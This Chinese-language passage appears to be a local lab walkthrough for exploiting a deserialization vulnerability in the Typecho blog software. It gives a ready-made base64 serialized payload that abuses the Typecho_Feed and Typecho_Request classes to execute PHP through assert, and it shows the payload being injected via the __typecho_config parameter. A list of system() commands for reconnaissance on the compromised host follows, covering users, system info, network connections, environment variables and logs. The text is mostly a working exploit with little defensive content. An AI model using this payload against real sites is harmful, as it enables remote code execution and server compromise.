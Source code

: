 ![image-20250606204830493](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250606204830493.png)

#### 6.得到payload

![image-20250606204907879](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250606204907879.png)

```
YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjk6InBocGluZm8oKSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO319fX19
```

#### 7.进入网址127.0.0.1/typecho.php

![image-20250606205232390](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250606205232390.png)

#### 8.填入?__typecho_config=payload

![image-20250606205518373](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250606205518373.png)

#### 9.得到info()界面，成功

![image-20250606205535545](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250606205535545.png)

### 二、执行其他的系统命令

#### 1.可以执行的指令有

##### （1)、列出当前目录下的文件和文件夹php'system("dir");'

输出当前目录下的文件和文件夹列表。

##### （2)、查看当前用户php'system("whoami");'

输出当前运行PHP进程的用户身份。

##### （3)、查看系统信息php'system("systeminfo");'

输出系统详细信息，包括操作系统版本、系统启动时间等。

##### （4)、查看网络连接php'system("netstat -an");'

列出当前系统的网络连接状态。

##### （5)、查看环境变量php'system("set");'

输出当前环境变量的值。

##### （6)、查看系统日志php'system("wevtutil qe Application /rd:true /c:1");'

输出最近的一条应用程序日志（需要管理员权限）。

#### 2.以创建新文件的指令为例，exe.php中修改，改为创建新文件的指令
